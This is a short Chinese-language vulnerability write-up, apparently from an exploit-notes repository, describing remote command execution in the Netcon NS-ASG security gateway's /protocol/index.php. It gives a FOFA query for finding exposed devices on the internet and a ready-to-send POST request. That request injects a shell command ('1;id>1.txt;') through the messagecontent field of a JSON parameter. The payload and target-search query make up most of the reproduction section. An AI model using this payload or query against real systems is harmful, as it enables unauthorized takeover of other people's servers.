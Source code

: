 # 网康 NS-ASG安全网关 index.php 远程命令执行漏洞

## 漏洞描述

网康 NS-ASG安全网关 index.php文件存在远程命令执行漏洞，攻击者通过构造特殊的请求包可以获取服务器权限

## 漏洞影响

```
网康 NS-ASG安全网关
```

## FOFA

```
title=="网康 NS-ASG 应用安全网关"
```

## 漏洞复现

登录页面

![image-20230314085700163](images/image-20230314085700163.png)

存在漏洞的文件为 /protocol/index.php ，通过文件读取可以获取到源码

![image-20230314085713446](images/image-20230314085713446.png)

![image-20230314085722233](images/image-20230314085722233.png)

通过构造请求包进行命令拼接漏洞执行命令

```
POST /protocol/index.php
  
jsoncontent={"protocolType":"getsysdatetime","messagecontent":"1;id>1.txt;"}
```

![image-20230314085737042](images/image-20230314085737042.png)

![image-20230314085745134](images/image-20230314085745134.png)